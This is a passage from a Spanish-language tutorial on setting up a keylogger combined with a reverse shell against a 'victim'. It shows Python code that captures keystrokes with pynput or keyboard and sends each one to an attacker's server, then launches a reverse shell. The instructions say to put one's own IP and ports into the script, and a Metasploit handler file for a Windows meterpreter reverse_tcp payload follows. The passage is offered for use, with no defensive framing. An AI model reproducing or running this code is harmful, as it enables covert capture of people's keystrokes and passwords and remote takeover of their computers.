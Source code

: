 ```python
        listener = pynput_keyboard.Listener(on_press=on_pynput_key_press)
        listener.start()
        listener.join()
    else:
        # Configurar el listener para el teclado en entornos no gráficos
        print(Fore.CYAN + Style.BRIGHT + "🔄 Usando keyboard para captura de teclas en terminal.")
        def on_kb_event(event):
            send_to_server(event.name)
        
        kb.on_press(on_kb_event)
        kb.wait()  # Mantener el script en ejecución en entorno de terminal

# Ejecutar la shell y captura de teclas en paralelo
if __name__ == "__main__":
    # Generar y ejecutar la reverse shell
    shell_file = generate_reverse_shell()

    # Iniciar el hilo de captura de teclas
    keystroke_thread = threading.Thread(target=capture_keystrokes)
    keystroke_thread.start()

    # Ejecutar la reverse shell en el hilo principal
    if shell_file:
        execute_reverse_shell(shell_file)

    # Esperar que el hilo de captura de teclas termine
    keystroke_thread.join()

    # Cerrar la conexión después de terminar
    client_socket.close()
    print(Fore.MAGENTA + Style.BRIGHT + "\n🔒 Conexión cerrada.\n")
```

En este script para la victima hay que modificar la IP en la seccion `SERVER_IP =` poner tu IP en la que quieres que se vea lo que teclea el usuario victima, despues la primera seccion de puerto llamada `PORT =` sera al puerto en el que se va a conectar para enviarte toda la informacion que debera de coincidir con el script `server_host.py` y despues en la seccion de `REVERSE_PORT =` debera de ir el puerto en el que hayamos configurado nuestra escucha en metasploit.

### <mark style="color:purple;">Preparar la escucha en metasploit</mark>

Ahora tendremos que habrir metasploit para prepararnos la escucha en otra pestaña de la terminal a parte.

Pero antes de abrir metasploit prepararemos un comando que automatiza este proceso.

> Para windows

```shell
nano handler_win.rc

#Dentro del nano
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

